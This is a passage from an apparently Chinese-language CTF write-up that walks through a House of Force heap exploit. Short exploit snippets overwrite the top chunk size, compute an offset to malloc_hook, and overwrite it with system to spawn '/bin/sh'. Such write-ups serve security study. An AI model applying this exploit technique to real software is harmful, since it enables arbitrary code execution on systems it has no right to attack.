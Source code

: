 ```bash
top_chunk_addr=add(0x10,'a'*0x10+b'/bin/sh\x00'+p64(0xffffffffffffffff))+0x10
leak('top_chunk_addr',top_chunk_addr)
```

这里写入 /bin/sh\\x00 是因为后面用 og 和 realloc 调不成功，所以用 system 打，这里因为有堆地址，直接申请堆地址就能执行 system('/bin/sh\\x00') \[因为没有对申请的 size 限制，所以可以这样打\]  
修改了 top chunk 的 size  
下面为了好分析，还是关掉 ASLR

[![](assets/1701612371-fc0561f7361dd09943bfcf0a8696b585.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701145816-a73e09be-17dc-1.png)

[![](assets/1701612371-75fc06ceca0161c19d5758eb8eeaebf6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701145821-aaae3fec-17dc-1.png)  
原本的 top chunk 地址加上实际上要分配的大小等于新的 top chunk 地址  
所以 offset=fake\_addr-0x10-0x10-top\_chunk\_addr  
offset=(malloc\_hook-0x20)-top\_chunk\_addr  
申请一下对应偏移的 chunk 就可以把 top\_chunk 扩展到 fake\_chunk 了  
然后直接申请后打就行了

```bash
add(offset,'kkk')
add(0x10,p64(system))
```

[![](assets/1701612371-3a339149860a645ddee1f201bca15576.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701145844-b86d1d1a-17dc-1.png)
